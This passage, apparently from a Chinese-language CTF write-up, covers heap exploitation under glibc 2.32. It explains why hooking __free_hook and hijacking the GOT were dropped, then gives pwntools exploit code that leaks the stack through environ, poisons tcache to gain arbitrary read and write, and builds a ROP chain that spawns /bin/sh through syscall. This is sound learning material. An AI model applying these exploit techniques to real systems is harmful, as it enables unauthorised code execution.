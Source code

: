 
这样就可以正确分配堆块到我们指定的地址上了。接下来要向 __free_hook 写入地址，这里遇到了第三个问题，即使写入 AAAAAAAA，也不会触发段错误，疑似根本没有执行 __free_hook。搜索发现这也是 glibc 2.32 的补丁，一系列 hook 被删掉了，存在符号但实际上并不会使用。

至此劫持 __free_hook 的方法不可用了。

#### 劫持 GOT 表
劫持 GOT 表需要先找到它的地址，和上一个题一样，需要泄漏代码段基地址。问了助教学到了可以通过 _rtld_global->_dl_rtld_map->l_name 泄漏出来，但是泄漏就要进行好几次读，劫持了 GOT 后，比如将 free 改为 system，还要构造 /bin/sh，比较复杂，感觉可能 16 次操作并不够用，所以放弃了这种方法。

#### 栈上 ROP
栈上 ROP 就不需要泄漏代码段基地址了，直接泄漏栈地址就可以了。前面已经泄漏了 libc 地址。libc 中有 environ 变量，其值是栈上 main 函数的 envp 地址。根据调试就可以找到相对于 func 返回地址的偏移。

然后和上一题一样构造 syscall 的 ROP 即可。这里任意地址读和写都是利用了任意地址分配堆块然后 show/update 实现的。

尝试劫持 __free_hook 中泄漏堆地址之前的 exp 都可以重复使用，后面的 exp：

```python
# read environ
update(8, p64(libc.sym['environ'] ^ heap_xor_base))
create(10, 0xf0)
create(11, 0xf0)
show(11)
stack_addr = u64(p.recvn(8))
success(f"stack_addr: {hex(stack_addr)}")
ret_addr = stack_addr - 0x120
info(f"return addr: {hex(ret_addr)}")

# rop on stack
create(12, 0xf0)
create(13, 0xf0)
delete(13)
delete(12)
update(12, p64((ret_addr - 0x8) ^ heap_xor_base))
create(14, 0xf0)
create(15, 0xf0)

"""
libc: 
0x000000000002a3e5 : pop rdi ; ret
0x000000000002be51 : pop rsi ; ret
0x0000000000090529 : pop rdx ; pop rbx ; ret
0x000000000008c6bb : pop rcx ; ret
"""
pop_rdi_ret = libc.address + 0x2a3e5
pop_rsi_ret = libc.address + 0x2be51
pop_rdx_rbx_ret = libc.address + 0x90529
pop_rcx_ret = libc.address + 0x8c6bb
syscall_addr = libc.sym["syscall"]
info(f"syscall addr: {hex(syscall_addr)}")

payload  = b"/bin/sh\x00"
payload += flat([
    pop_rdi_ret,
    59,
    pop_rsi_ret,
    ret_addr - 0x8,
    pop_rdx_rbx_ret,
    0,
    0,
    pop_rcx_ret,
    0,
    syscall_addr
])

```